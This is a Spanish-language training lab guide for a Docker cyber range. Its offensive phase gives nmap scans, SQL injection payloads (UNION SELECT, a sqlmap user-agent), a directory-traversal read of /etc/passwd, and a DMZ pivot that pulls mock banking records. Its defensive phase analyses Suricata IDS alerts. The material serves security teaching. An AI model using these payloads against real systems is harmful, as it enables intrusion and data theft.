

# Guía Práctica de Laboratorio: Explotación Web y Movimiento Lateral (Cyber Range)

**Nivel:** Intermedio / Avanzado  
**Audiencia:** Estudiantes de Ciberseguridad (Red Team, Blue Team, Purple Team)  
**Tiempo Estimado:** 60 - 90 minutos  
**Entorno:** Contenedores Docker multi-segmentados con sensor Suricata IDS en línea  

---

## 1. Objetivos de Aprendizaje

Al finalizar este laboratorio práctico, el estudiante será capaz de:
1. Comprender la arquitectura de **microsegmentación de red** (External, DMZ e Internal Corporate).
2. Ejecutar técnicas ofensivas del marco **MITRE ATT&CK**:
   - Reconocimiento de red con Nmap (**T1595**).
   - Inyección SQL (**T1190**) y Local File Inclusion / LFI (**T1083**).
   - Evasión y comprobación de controles de firewall perimetral (**T1046**).
   - Movimiento lateral desde un host comprometido en DMZ hacia activos internos (**T1021** y **T1570**).
3. Analizar la telemetría generada en el **SOC** mediante un sensor **Suricata IDS** en tiempo real (`fast.log` y `eve.json`).
4. Proponer recomendaciones defensivas de mitigación y hardening perimetral.

---

## 2. Mapa Visual del Escenario



---

## 3. Preparación del Entorno (Paso 0)

Abre una terminal de PowerShell o Bash en la raíz del proyecto (`c:\Users\brene\Documents\GNs3`):

### 3.1 Iniciar el laboratorio:
```powershell
docker compose up -d
```

### 3.2 Verificar que los 4 contenedores estén en estado `Up`:
```powershell
docker compose ps
```

Deberás ver activos:
- `cr-attacker-node` (Tu máquina de ataque)
- `cr-edge-router-soc` (El router perimetral e IDS Suricata)
- `cr-dmz-web` (El servidor web vulnerable en DMZ)
- `cr-internal-corp` (La base de datos y API interna confidencial)

> [!NOTE]
> Para abrir dos perspectivas al mismo tiempo, se recomienda abrir **dos terminales**:
> - **Terminal A (Atacante):** Ejecución de los pasos ofensivos.
> - **Terminal B (Blue Team / SOC):** Monitorización de alertas en tiempo real.

---

## 4. Fase Ofensiva (Red Team)

### Paso 1: Acceso a la Consola del Atacante

En la **Terminal A**, ingresa al contenedor del atacante:

```bash
docker exec -it cr-attacker-node /bin/bash
```

Verifica tu dirección IP asignada dentro del segmento externo (`10.10.10.0/24`):
```bash
ip -4 addr show eth0
```
*(Debes tener asignada la IP `10.10.10.5`)*

---

### Paso 2: Reconocimiento de la Red DMZ (MITRE T1595)

Como atacante externo, tu primer objetivo es identificar servicios expuestos en la DMZ (`10.10.20.50`).

Ejecuta un escaneo de puertos con Nmap:
```bash
nmap -sS -p 21,22,80,443,3306,8080 10.10.20.50 -Pn
```

**Resultado esperado:**
- El puerto **80/tcp (HTTP)** está abierto (`open`).

Comprueba la conectividad web realizando una petición básica con `curl`:
```bash
curl -I http://10.10.20.50/login.php
```

> [!TIP]
> Observa las cabeceras de respuesta del servidor: revela que es un servidor `Apache (Debian)` ejecutando una aplicación PHP.

---

### Paso 3: Explotación de la Aplicación Web (MITRE T1190 y T1083)

#### Ejercicio 3.1: Inyección SQL (SQLi)
La aplicación web contiene parámetros vulnerables a inyección SQL. Vamos a probar dos vectores:

1. **Inyección con firma de herramienta automatizada:**
   ```bash
   curl -s -k "http://10.10.20.50/vulnerabilities/sqli/?id=1'+or+1=1+--+" -A "sqlmap/1.7#stable"
   ```

2. **Inyección con extracción de datos mediante UNION SELECT:**
   ```bash
   curl -s -k "http://10.10.20.50/vulnerabilities/sqli/?id=1'+UNION+SELECT+1,user()+--+&Submit=Submit"
   ```

#### Ejercicio 3.2: Salto de Directorio / Local File Inclusion (LFI)
Intenta acceder a archivos sensibles del sistema operativo del servidor web:
```bash
curl -s -k "http://10.10.20.50/vulnerabilities/fi/?page=../../../../etc/passwd"
```

> [!IMPORTANT]
> **Pregunta para el estudiante:** ¿Por qué la aplicación permite leer rutas fuera de la raíz web?  
> *(Pista: El parámetro `page` incluye directamente la entrada del usuario sin validación mediante funciones como `basename()` o listas blancas).*

---

### Paso 4: Comprobación de la Defensa Perimetral Zero-Trust (MITRE T1046)

Supón que el atacante conoce o sospecha que existe una red interna corporativa en `10.10.30.0/24` y un servidor de base de datos en `10.10.30.50`.

Desde tu terminal de atacante (`cr-attacker-node`), intenta conectar directamente al puerto 5000 del servidor interno:
```bash
nc -z -v -w 3 10.10.30.50 5000
```

**Resultado:**
- La conexión fallará o devolverá un error de `Connection refused / Unreachable`.

> [!NOTE]
> **Explicación Defensiva:** El firewall del router perimetral (`cr-edge-router-soc`) tiene una regla estricta:
> `iptables -A FORWARD -i eth1 -o eth2 -j REJECT`
> Esto impide que un atacante externo acceda directamente a los activos del núcleo corporativo, forzándolo a buscar una vía indirecta.

---

### Paso 5: Movimiento Lateral (Pivoteando desde la DMZ) (MITRE T1021 y T1570)

Dado que la aplicación web en la DMZ tiene vulnerabilidades críticas (RCE / LFI / SQLi), el atacante ahora cuenta con acceso de ejecución en el servidor web de la DMZ (`cr-dmz-web`).

Para simular este compromiso, abre una sesión dentro de `cr-dmz-web`:

```powershell
# En una nueva terminal de PowerShell:
docker exec -it cr-dmz-web /bin/bash
```

#### 5.1 Comprobar alcance desde la DMZ hacia la Red Interna:
A diferencia del atacante externo, la DMZ tiene acceso legítimo hacia los servicios del backend corporativo:

```bash
# Consultar el estado de salud de la API interna:
php -r "echo file_get_contents('http://10.10.30.50:5000/api/v1/health') . PHP_EOL;"
```
*(Respuesta: `{"status":"healthy","service":"internal-db"}`)*

#### 5.2 Exfiltración de datos confidenciales (Core Banking):
Ejecuta la extracción de registros restringidos de la base de datos corporativa:

```bash
php -r "echo file_get_contents('http://10.10.30.50:5000/api/v1/customers') . PHP_EOL;"
```

**Datos Exfiltrados:**
```json
{
  "status": "RESTRICTED",
  "department": "Internal Core Banking",
  "records": [
    {"id": 1001, "name": "ACME Corp", "balance": 1500000},
    {"id": 1002, "name": "Wayne Enterprises", "balance": 9800000}
  ]
}
```

¡El movimiento lateral ha comprometido los activos más sensibles de la organización sin tocar directamente el firewall desde el exterior!

---

## 5. Fase Defensiva (Blue Team / SOC)

Ahora cambiamos al rol de **Analista de Seguridad del SOC**. Vamos a verificar qué detectó nuestro sensor de red en tiempo real.

En la **Terminal B**, entra al router perimetral:

```powershell
docker exec -it cr-edge-router-soc /bin/bash
```

### Paso 6: Inspección de Alertas en Tiempo Real (`fast.log`)

Examina las últimas alertas registradas por Suricata:
```bash
tail -n 20 /var/log/suricata/fast.log
```

Identifica cada alerta generada durante tu ataque:

| SID Detectado | Descripción de la Regla | Técnica MITRE | Momento en que se disparó |
|---|---|---|---|
| `1000002` | Automated Vulnerability Scanner User-Agent | [T1595.002](https://attack.mitre.org/techniques/T1595/002/) | Petición con User-Agent de sqlmap en el Paso 3.1 |
| `1000010` | Web Application SQLi Attempt - UNION SELECT | [T1190](https://attack.mitre.org/techniques/T1190/) | Inyección SQL manual en el Paso 3.1 |
| `1000020` | Directory Traversal / LFI Attempt against /etc/passwd | [T1083](https://attack.mitre.org/techniques/T1083/) | Intento de lectura de `/etc/passwd` en el Paso 3.2 |
| `1000040` | Direct Perimeter Breach Attempt | [T1046](https://attack.mitre.org/techniques/T1046/) | Intento de conexión directa con Netcat en el Paso 4 |
| `1000030` | Suspicious Lateral Movement: DMZ Host Connecting to Internal | [T1021](https://attack.mitre.org/techniques/T1021/) | Tráfico originado desde `10.10.20.50` a `10.10.30.50` en el Paso 5 |
| `1000031` | Lateral Movement: DMZ Node Querying Internal API | [T1570](https://attack.mitre.org/techniques/T1570/) | Petición a la API de clientes en el puerto 5000 en el Paso 5.2 |

---

### Paso 7: Análisis de Telemetría Forense con JSON (`eve.json`)

Suricata genera eventos detallados en formato JSON Lines (`eve.json`), que son consumidos por plataformas SIEM (como Splunk, Elastic o Wazuh).

Filtra únicamente los eventos de alerta formateados con `jq`:
```bash
tail -n 50 /var/log/suricata/eve.json | jq 'select(.event_type=="alert") | {timestamp, src_ip, dest_ip, alert: .alert.signature, uri: .http.url}'
```

Observa cómo se incluye la URL exacta que el atacante utilizó, la IP origen y la severidad asignada.

---

## 6. Validación Automatizada del Laboratorio

Para evaluar si el laboratorio ha sido completado y verificar todos los controles técnicos de forma desatendida, corre la suite de pruebas automatizadas:

```powershell
# En la máquina host (PowerShell):
.\run_tests.ps1
```

Si todo está correctamente desplegado y funcionando, verás el reporte de aprobación:
```text
Ran 12 tests in ~13s
OK
[SUCCESS] All Cyber Range tests passed successfully!
```

---

## 7. Cuestionario de Evaluación para el Estudiante

1. **Segmentación de Red:** ¿Por qué es una mala práctica de seguridad permitir que un servidor web en DMZ tenga acceso libre hacia cualquier puerto de la red interna?
2. **Evasión de Firmas:** Si el atacante cambiara el User-Agent `sqlmap` por el de un navegador Firefox legítimo, ¿qué regla del sensor dejaría de activarse y cuál seguiría detectándolo?
3. **Modo IPS vs. IDS:** Las alertas configuradas en este laboratorio están en modo pasivo (`alert`). Si cambiáramos la acción a `drop` en Suricata (modo IPS inline), ¿qué efecto tendría en el Paso 3 y en el Paso 5?
4. **Hardening:** Menciona dos medidas concretas para evitar que el servidor interno entregue datos de banca corporativa sin autenticación.
